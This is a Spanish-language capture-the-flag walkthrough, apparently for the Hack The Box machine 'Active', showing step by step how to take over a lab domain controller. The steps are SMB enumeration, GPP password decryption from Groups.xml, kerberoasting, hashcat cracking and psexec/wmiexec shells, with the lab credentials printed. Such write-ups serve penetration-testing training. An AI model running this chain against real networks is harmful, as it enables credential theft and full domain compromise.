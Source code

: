![Active (1)](https://github.com/user-attachments/assets/a0ee55d3-ffbf-4642-a114-e1aca2f30836)

Comenzamos enumerando puertos abiertos con nmap.

``sudo nmap 10.10.10.100 -sS -p- --open --min-rate 5000 -n -Pn -oG allPorts``

![Pasted image 20250313105053](https://github.com/user-attachments/assets/43fe3451-31a8-4d10-bf9b-ab638880287d)

Dados los puertos abiertos, tiene bastante pinta de que es un DC. No obstante, vamos a ver qué servicios y versiones están corriendo en estos puertos.

``nmap 10.10.10.100 -sCV -p53,88,135,139,389,445,464,593,636,3268,3269,5722,9389,49152,49153,49154,49155,49157,49158,49163,49174,49176 -oN target``

![Pasted image 20250313105216](https://github.com/user-attachments/assets/691c6de4-1102-426b-a453-331ef7769073)

Confirmamos que es un DC. A su vez, podemos empezar a ver cositas, como que el dominio es active.htb. Para recopilar un poquito más de información vamos a hacer uso de netexec.

``netexec smb 10.10.10.100``

![Pasted image 20250313105324](https://github.com/user-attachments/assets/d9c8b691-10ab-4097-9e7c-e6c6764f03d7)


Nombre máquina: DC

Dominio: active.htb

Añadimos esta información al /etc/hosts.

![active etchosts](https://github.com/user-attachments/assets/13591f9d-94c3-4bbe-ad59-c2e98c30f03e)



Para continuar enumerando información que pueda ser de utilidad, vamos a intentar ver qué recursos se están compartiendo:

``netexec smb 10.10.10.100 -u '' -p '' --shares``

![Pasted image 20250313105631](https://github.com/user-attachments/assets/b0ac3808-30c1-4906-bb42-ea78c529c128)

Tenemos permisos de lectura en el recurso Replication, lo cual es llamativo. Vamos a echar un vistazo con null sesion.

``smbclient //10.10.10.100/REPLICATION -N``

![Pasted image 20250313105732](https://github.com/user-attachments/assets/a6766483-809e-4362-9980-871fa73e4d44)


active.htb -> Parece la estructura de SYSVOL

Para echarle un ojo más a fondo, vamos a traernos todo lo existente a la máquina atacante.

``recurse ON``

``prompt OFF``

``mget *``

A medida que se van descargando, si nos fijamos, hay algo que llama la atención:

![Pasted image 20250313110008](https://github.com/user-attachments/assets/445fc4b7-ad78-4b6f-9e18-6d7145aaa9ff)

groups.xml. Este archivo es muy jugoso porque a veces tiene contraseñas.

Si queremos ver la estructura de todos los datos descargados:

``tree .``

![Pasted image 20250313110146](https://github.com/user-attachments/assets/36f7f9ba-e4f8-412d-bad0-07a559d358e5)


Y si echamos un vistazo a Groups.xml : 

![Pasted image 20250313112056](https://github.com/user-attachments/assets/b5212019-0655-4aea-8ac4-f692c9609db0)


Vemos claramente una referencia al usuario SVC_TGS y la contraseña encriptada. Para poder romperla hacemos uso de la utilidad ``gpp-decrypt``.

``gpp-decrypt 'CLAVE'``

![Pasted image 20250313110557](https://github.com/user-attachments/assets/5912c20f-0c5f-4546-b198-6bdd4d4749f8)

Tenemos la contraseña, y por tanto, las posibles credenciales -> SVC_TGS : GPPstillStandingStrong2k18

Vamos a ver si son válidas con netexec.

``netexec smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'``

![Pasted image 20250313112339](https://github.com/user-attachments/assets/a5c35665-312e-4765-a205-5eb2844b4152)

Nos pone [+], por lo que son credenciales válidas. Una vez sabemos esto, podemos seguir husmeando para ver qué se esta compartiendo para este usuario por SMB:

``netexec smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' --shares``

![Pasted image 20250313112616](https://github.com/user-attachments/assets/549749d1-e6be-416f-8217-3ebeb729393b)

Lo único que puede parecer interesante, a priori, es el directorio Users. Si nos conectamos con smbclient con estas credenciales, vemos que es el directorio C:\Users. De hecho, podemos acceder a user.txt dentro del directorio SVC_TGS, pero en un escenario como el de la OSCP no sirve con obtener la flag de esta forma porque no tenemos una consola interactiva.

![Pasted image 20250313113410](https://github.com/user-attachments/assets/b6d57e01-b7de-4d52-9259-0a1bd3610480)


Vale, tenemos unas credenciales válidas, pero no tenemos forma de conectarnos: no hay winRM, no hay RDP y no podemos hacer uso de psexec/wmiexec por falta de privilegios.

Como tenemos credenciales, podemos probar kerberoasting para ver si capturamos algún hash de otro usuario:

``impacket-GetUserSPNs -request -dc-ip 10.10.10.100 active.htb/SVC_TGS``
-> Password: GPPstillStandingStrong2k18

![Pasted image 20250313113615](https://github.com/user-attachments/assets/f4706d60-a0de-41cf-9c9a-91cafd9cb652)

Ojo. Tenemos el TGS del usuario Administrator. Si conseguimos descifrarlo, está hecho. Nos copiamos el contenido en un archivo. Ej: admintgs

![Pasted image 20250313113715](https://github.com/user-attachments/assets/8227a23b-c816-423c-ad2a-4005e2827743)


Buscamos en hashcat el código para el TGS-REP (``krb5tgs$23$``):

``hashcat --help | grep -i "kerberos"

![Pasted image 20250313113850](https://github.com/user-attachments/assets/b2a5f526-064c-4dc2-8aee-580aefedcf44)


Lanzamos hashcat con rockyou como diccionario.

``hashcat -m 13100 admintgs /usr/share/wordlists/rockyou.txt --force``

![Pasted image 20250313114050](https://github.com/user-attachments/assets/59f199dd-b2a9-40a7-bfc7-c3b4a81a97d9)

Lo ha sacado. Tenemos contraseña del usuario Administrator : Ticketmaster1968

Validamos credenciales con netexec:

``netexec smb 10.10.10.100 -u 'administrator' -p 'Ticketmaster1968'``

![Pasted image 20250313114156](https://github.com/user-attachments/assets/1be287e2-09ac-4782-a19a-8cf09a160c3b)


Nos aparece pwned para smb, por lo que podríamos utilizar wmiexec (para acceder como administrator) y psexec (para acceder como nt authority\system):

Ejemplos:

``impacket-wmiexec Administrator@10.10.10.100``

-> Password: Ticketmaster1968

![Pasted image 20250313114352](https://github.com/user-attachments/assets/2cca26a5-0223-4896-8e68-da09618d474c)


``impacket-psexec Administrator@10.10.10.100``

-> Password: Ticketmaster1968

![Pasted image 20250313114422](https://github.com/user-attachments/assets/30e28b9a-5b7b-40e2-a6b5-2e79a666ea4d)



Recogemos la flag de usuario en: C:\Users\SVC_TGS\Desktop:

![Pasted image 20250313114638](https://github.com/user-attachments/assets/76f66d12-22bb-4793-83fb-eb4b9e74e767)


Y por último, recogemos la flag de Administrador en C:\Users\Administrator\Desktop:

![Pasted image 20250313114758](https://github.com/user-attachments/assets/a314fe8e-b238-46cb-b847-ed247098f76e)
